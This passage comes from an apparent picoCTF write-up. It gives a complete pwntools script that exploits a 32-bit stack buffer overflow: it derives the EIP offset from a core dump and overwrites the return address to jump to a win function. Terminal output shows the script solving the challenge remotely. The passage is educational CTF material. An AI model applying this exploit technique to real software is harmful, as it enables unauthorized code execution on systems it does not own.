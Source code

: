 This is my final, completely automated script:

{% ccb lang:py gutter1:1-22 caption:buffer-overflow-1-automated.py url:'gist.github.com/jktrn/b1586f403c6ae31ce0e128b8f96faad6' url_text:'github gist link' %}
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)    # sets elf object
host, port = 'saturn.picoctf.net', [PORT]

p = process(elf.path)        # references elf object
p.sendline(cyclic(128))      # sends cyclic pattern to crash
p.wait()                     # sigsegv generates core dump
core = Coredump('./core')    # parse core dump file

payload = flat({
    cyclic_find(core.eip): elf.symbols.win    # offset:address
})

if args.REMOTE:    # remote process if arg
    p = remote(host, port)
else:
    p = process(elf.path)

p.sendline(payload)
p.interactive()    # receives flag
{% endccb %}

Let's run the script on the server:

{% ccb html:true wrapped:true terminal:true %}
<span class="meta prompt_">$ </span>python3 buffer-overflow-1-automated.py REMOTE
[<span style="color:#47D4B9"><b>+</b></span>] Starting local process '/home/kali/ctfs/pico22/buffer-overflow-1/vuln': pid 2601
[<span style="color:#277FFF"><b>*</b></span>] Process '/home/kali/ctfs/pico22/buffer-overflow-1/vuln' stopped with exit code -11 (SIGSEGV) (pid 2601)
[<span style="color:#47D4B9"><b>+</b></span>] Parsing corefile...: Done
[<span style="color:#277FFF"><b>*</b></span>] '/home/kali/ctfs/pico22/buffer-overflow-1/core'
    Arch:      i386-32-little
    EIP:       0x6161616c
    ESP:       0xff829260
    Exe:       '/home/kali/ctfs/pico22/buffer-overflow-1/vuln' (0x8048000)
    Fault:     0x6161616c
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to saturn.picoctf.net on port <span style="color:#696969"><b>[PORT]</b></span>: Done
[<span style="color:#277FFF"><b>*</b></span>] Switching to interactive mode
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_<span style="color:#696969"><b>[REDACTED]</b></span>}[<span style="color:#277FFF"><b>*</b></span>] Got EOF while reading in interactive
{% endccb %}

We've successfully automated a solve on a simple x32 buffer overflow!

---
